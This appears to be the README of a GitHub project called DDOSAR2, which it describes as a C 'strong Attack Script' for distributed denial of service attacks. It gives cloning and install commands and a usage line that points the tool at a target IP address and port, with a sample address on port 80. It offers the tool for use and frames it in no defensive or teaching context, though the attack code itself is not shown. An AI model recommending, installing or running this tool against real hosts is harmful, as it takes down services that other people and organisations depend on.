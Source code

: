 # DDOSAR2:
 * A C Script: For distributed denial of service attack(DDOS ATTACK)
 * strong Attack Script

# INSTALL:
 - git clone https://github.com/Oseid/DDOSAR2.git
 - cd DDOSAR2/
 - chmod +x ddos.c install.sh
 - ./install.sh

# Usage:
  * cd DDOSAR2/
  * ./ddosar <targetIP> <PORT>

  - Example:
     ./ddosar 172.217.17.46 80


# That's All:)
 - This Script By Oseid Aldary
 - Thanks For using
 - Have A Nice Day, GoodBye :)

